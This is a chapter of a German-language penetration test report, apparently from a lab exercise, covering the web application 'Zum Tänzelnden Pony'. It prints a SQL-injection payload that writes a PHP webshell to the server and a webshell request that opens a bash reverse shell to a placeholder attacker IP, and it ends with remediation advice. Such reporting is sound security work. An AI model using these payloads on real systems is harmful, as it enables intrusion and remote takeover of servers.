\chapter{Zum Tänzelnden Pony}
Die Webanwendung \textit{Zum Tänzelnden Pony} befindet sich in einem anderen Netz (10.0.72.0). Dieses Netz ist nicht direkt für einen Angreifer erreichbar. Mit dem zuvor Kompromittiertem System \textit{Butterblume's Client} kann ein Tunnel erstellt werden, um die Webanwendung \textit{Zum Tänzelnden Pony} auch aus anderen Netzen zu erreichen.

\vfill
\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/screenshots/11_taenzelndes_pony.png}
    \caption{Webanwendung Zum tänzelnden Pony}
    \label{fig:09_taenzelndes_pony}
\end{figure}
\vfill
\newpage

\cvss{av=local, ac=low, pr=none, ui=required, s=changed, c=high, i=low, a=low}
\cvssdescription{SQL-Injection Schwachstelle beim Ändern eine Reservierung führt zur Möglichkeit eines Uploads einer Webshell.}

\section{\makecvssbadge SQL Injection}
\cvssaddtosummary{Zum Tänzelnden Pony: SQL Injection}

\subsection*{Proof of concept}
Nach dem Zugriff über einen Tunnel auf den Webserver kann dieser wie gewohnt über den Webbrowser aufgerufen werden.Durch die Kompromittierung des Clients \textit{Butterblume's Client} wurde ermittelt, dass dieser der Administrator für die Webanwendung \textit{Zum Tänzelnden Pony} ist. Mit den Zugangsdaten aus der Keypass-Datei aus der Nextcloud kann sich per SSH auf den Client \textit{Butterblume's Client} verbunden werden. In dem Datenverzeichnis des Rechners wurde das Verzeichnis \texttt{/home/butterbluem/hotel-mgmt-system} gefunden, welches den Code für die Webanwendung enthält.In der Datei \texttt{hotel.sql} konnten Admin-Zugangsdaten in Klartext gefunden werden. Zudem wurde eine Schwachstelle im PHP-Skript \texttt{manage\_reservation.php} identifiziert, die eine SQL-Injection ermöglicht. Über diese Schwachstelle kann eine Webshell auf den Webserver hochgeladen werden (HTTP-Post Request siehe \autoref{listing:pony:webshell_upload}).

Durch den vorherigen Upload einer Webshell ist diese nun unter der Sub-URL \url{/shell1.php} erreichbar. Über den \texttt{cmd} Parameter kann eine Reverse Shell initiiert werden. Dafür muss zunächst ein Netcat-Listenner auf dem Angreifer-System erstellt werden (siehe \autoref{listing:netcat-listener}). Danach kann ein passender Angriffsvektor über die Webshell geschickt werden. Dieser HTTP-GET-Request ist in \autoref{listing:pony:reverse_shell} aufgeführt. Ein Nachweis ist in \autoref{fig:09_taenzelndes_pony_proof} dargestellt.

\begin{listing}[!ht]
\begin{minted}{bash}
POST /app/admin/manage_reservation.php HTTP/1.1 
[...]

item%5B%5D=14;SELECT+"<%3fphp+system($_REQUEST['cmd'])%3b+%3f>"+into+outfile+ '/var/www/html/shell1.php'&confirm=true
\end{minted}
\caption{Webshell Upload mit SQL Injection}
\label{listing:pony:webshell_upload}
\end{listing}


\begin{listing}[!ht]
\begin{minted}{bash}
GET /shell1.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/<Angreifer-IP>/9002+0>%261'
\end{minted}
\caption{Reverse Shell}
\label{listing:pony:reverse_shell}
\end{listing}


\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/proofs/09_taenzelndes_pony_proof.png}
    \caption{Proof für die Webanwendung Zum tänzelnden Pony}
    \label{fig:09_taenzelndes_pony_proof}
\end{figure}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Eingabevalidierung: Validieren und escapen Sie alle Benutzereingaben, um Injection-Angriffe zu verhindern (siehe \cite{owaspInputValidation}).
    \item Prepared SQL-Statements: Mit Hilfe von Prepared SQL-Statements können SQL-Injection-Angriffe verhindert werden, indem Eingaben korrekt validiert und escaped werden (siehe \cite{owaspSQLInjectionPrevention}).
\end{itemize}